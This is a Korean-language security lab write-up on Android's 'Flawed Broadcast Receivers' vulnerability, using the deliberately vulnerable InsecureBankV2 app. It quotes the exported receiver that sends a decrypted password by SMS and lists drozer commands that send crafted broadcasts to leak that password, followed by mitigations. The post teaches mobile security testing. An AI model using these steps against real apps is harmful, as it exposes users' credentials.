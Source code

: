 ```yaml
---
layout: single
title: Flawed Broadcast Receivers
categories: Android
tag: [android, mobile, drozer,insecurebankv2, app, application, Flawed Broadcast Receivers]
toc: true
author_profile: false
---
```


# Flawed Broadcast Receivers

## Broadcast Receivers란 무엇인가?

<div class="notice--primary" markdown="1">
애플리케이션의 4대 구성 단위중 하나로서 안드로이드 앱에서 발생하는 시스템 브로드캐스트 메시지를 수신하여 처리하는 구성 요소이다. 브로드캐스트 리시버는 안드로이드 앱의 다른 구성 요소들이나 외부 시스템에서 발생한 이벤트에 반응하여 특정 작업을 수행할 수 있도록 해준다.

> 여기서 브로드캐스트 메시지란 시스템에서 발생하는 이벤트를 알리기 위한 메시지이며, 이러한 메시지를 이벤트 혹인 인텐트(intent)라고도 부른다. 예를 들어 애플리케이션은 브로드캐스트를 시작하여 다른 애플리케이션에 일부 데이터가 디바이스에 다운로드 되어 사용할 수 있음을 알릴 수 있으며, 브로드캐스트 리시버는 이 통신을 가로채 적절한 조치를 취한다.`

```
브로드캐스트 리시버는 안드로이드의 매니페스트 파일(AndroidManifest.xml 의 <receiver></receiver>항목)에 등록되어야 하며, 등록된 브로드캐스트 이벤트가 발생했을 경우 시스템에 의해 호출된다.
``` 

브로드 캐스트 리시버가 정상적으로 작동하려면 우선 브로드캐스트 리시버를 생성 및 등록이 이루어져야한다.
<br>
브로드캐스트 리시버는 BroadcastReceiver 클래스의 서브클래스로 구현되며, 각 메시지를 intent 객체 파라미터로 수신하는 onReceiver() 메서드를 재정의 한다.

![그림 1-1](/assets/image/vuln/mobile-vuln/adnroid-vuln/Flawed%20Broadcast%20Receivers/image.png)

[Example Code]

```java
public class MyReceiver extends BroadcastReceiver {
   @Override
   public void onReceive(Context context, Intent intent) {
      Toast.makeText(context, "Intent Detected.", Toast.LENGTH_LONG).show();
   }
}
```

</div>

어플리케이션에서 선언한 액션을 호출하면 리시버는 해당 액션을 인지하여 작업을 수행하게 하고, 이러한 작업은 브래드캐스트 리시버를 상속 받은 메서드에서 처리하게 된다.
<br><br>
브로드캐스트 리시버 호출 시 발생하는 브로드캐스트가 정상이면 각각의 시스템 이벤트와 다른 어플리케이션에서 발생하는 경우가 있으며, 비정상일 경우 악의적인 어플리케이션에서 발생하거나, 악의적인 사용자에 의해 임의대로 생성할 수 있게 된다.

## Flewed Broadcas Receivers
💡 **<u><span style="background-color: yellow; ">해당 취약점 실습은 "InsecureBank2"라는 모바일 뱅킹서비스 어플리케이션으로 진행합니다.</span></u>** 
{: .notice--primary}

### 취약점 분석

```xml
<receiver
   android:name=".MyBroadCastReceiver"
   android:exported="true" >
   <intent-filter>
         <action android:name="theBroadcast" >
         </action>
   </intent-filter>
</receiver>
```

위 코드는 진단 어플리케이션의 AndroiManifest.xml 파일에 선언된 <receiver> 항목이다.
<br><br>
해당 코드를 보게되면, 브로드캐스트 리시버는 MyBroadCastReceiver이며, exported 가 true로 지정되어 있다. 이는 해당 브로드캐스트 리시버가 다른 어플리케이션에서 사용될 수 있음을 의미한다. 즉, 외부 어플리케이션으로부터 intent를 받을 수 있다. 또한 브로드캐스트 리시버가 처리할 액션은 theBroadcast이다. 즉, 해당 어플리케이션 혹은 다른 어플리케이션에서 해당 액션을 보낼 때 브로드캐스트 리시버가 해당 액션을 수신하여 처리할 수 있게 된다.
<br><br>
이후 Android Device가 부팅될 때마다 브로드캐스트 리시버인 MyBrocastReciver가 이를 가로채고 onRecive() 내부에 구현된 로직이 실행되게 된다.


```java
public class MyBroadCastReceiver extends BroadcastReceiver {
	String usernameBase64ByteString;
	public static final String MYPREFS = "mySharedPreferences";

	@Override
	public void onReceive(Context context, Intent intent) {
		// TODO Auto-generated method stub

        String phn = intent.getStringExtra("phonenumber");
        String newpass = intent.getStringExtra("newpass");

		if (phn != null) {
			try {
                SharedPreferences settings = context.getSharedPreferences(MYPREFS, Context.MODE_WORLD_READABLE);
                final String username = settings.getString("EncryptedUsername", null);
                byte[] usernameBase64Byte = Base64.decode(username, Base64.DEFAULT);
                usernameBase64ByteString = new String(usernameBase64Byte, "UTF-8");
                final String password = settings.getString("superSecurePassword", null);
                CryptoClass crypt = new CryptoClass();
                String decryptedPassword = crypt.aesDeccryptedString(password);
                String textPhoneno = phn.toString();
                String textMessage = "Updated Password from: "+decryptedPassword+" to: "+newpass;
                SmsManager smsManager = SmsManager.getDefault();
                System.out.println("For the changepassword - phonenumber: "+textPhoneno+" password is: "+textMessage);
                smsManager.sendTextMessage(textPhoneno, null, textMessage, null, null);
			} catch (Exception e) {
				e.printStackTrace();
			}
		}
        else {
            System.out.println("Phone number is null");
        }
	}

}
```

MyBroadCastReceiver 코드를 보게되면, BroadcastReceiver 객체를 상속받고, phn과 newpass를 인자로받으며, 브로드캐스트가 발생하면 onReceive() 메서드가 실행되게 된다. 해당 메서드를 보게되면, 암호화된 사용자 이름과 패스워드를 가져와서 복호화하여 SMS에 포함될 메시지로 사용하며, 사용자 전화번호로 보내도록 되어있다. 이 때 전화번호가 입력되지 않는 다면 "Phone number is null"을 출력하게 된다.
<br><br>
Drozer을 이용하여 실습을 진행해 보았다.

```
run app.package.attacksurface com.android.insecurebankv2
```

![그림 1-2](/assets/image/vuln/mobile-vuln/adnroid-vuln/Flawed%20Broadcast%20Receivers/image1.png)
- Drozer을 통해 취약점 유/무 확인이 가능하다.
- 해당 내용으로는 content providers exported 가 1로 되어 있다. 이는 외부 어플리케이션에서 접근할 수 있는 서비스의 수를 의미하며, 외부 어플리케이션에서 해당 서비스를 시작할 수 있다. 해당 부분이 공격 표면이 된다.

```
run app.broadcast.info -a com.android.insecurebankv2 -i
```

![그림 1-3](/assets/image/vuln/mobile-vuln/adnroid-vuln/Flawed%20Broadcast%20Receivers/image33.png)
- 위 내용은 브로드캐스트 리시버 정보를 확인할 수 있다.
- 살펴보면 com.android.insecurebankv2패키지의 MyBroadCastReceiver 라는 브로드캐스트 리시버가 포함되어 있다는 것을 알 수 있다. 앞에서 확인한 정보와 일치한다.
- 권한 설정은 되어있지 않다.
- 이후 새로운 브로드캐스트를 생성하여, 브로드캐스트 리시버에 정의된 액션을 수행할 수 있다.

```
run app.broadcast.send --component com.android.insecurebankv2 com.android.insecurebankv2.MyBroadCastReceiver
```
위와 같이 --extra 옵션 없이 임의 브로드캐스트를 생성하여 전송하게 되면 logcat정보에 인자값이 없을 경우 발생하는 문자가 출력된다.

![그림 1-4](/assets/image/vuln/mobile-vuln/adnroid-vuln/Flawed%20Broadcast%20Receivers/image-1.png)


```
run app.broadcast.send --action theBroadcast --extra string phonenumber 1234 --extra string newpass crack

or 

run app.broadcast.send --component com.android.insecurebankv2 com.android.insecurebankv2.MyBroadCastReceiver --extra string phonenumber 1234 --extra string newpass crack
```
위 코드들과 같이 보낼 경우 출력되는 메시지에는 기존에 사용하던 패스워드가 평문으로 포함되어 노출되게 된다. 즉, 계정의 패스워드는 변경되지 않지만 기존의 비밀번호는 노출되게 된다.

<div class="notice">
  <h4>현재 Insecurebank2의 경우에는 onReceive() 메서드에서 SharedPreferences를 사용하는 부분에서 MODE_WORLD_READABLE를 사용하고 있다. 이는 안드로이드에서 더이상 지원하지 않고있으며, API Level 17 부터 사용이 금지되었다. 이로인해 위 명령어는 실행되지 않는다. 이를 실행 시키기 위해서는 MODE_WORLD_READABLE 부분을 MODE_PRIVATE로 변경하고 다시금 빌드를 해야한다.</h4>
</div>

# 대응 방안
1. AndroidManifest.xml 파일의 "adnroid:exported" 항목을 True가 아닌 False로 설정하여야 한다.
2. 리시버에 대한 별도의 권한을 부여하여야 한다.

# Referance
- https://www.tutorialspoint.com/android/android_broadcast_receivers.htm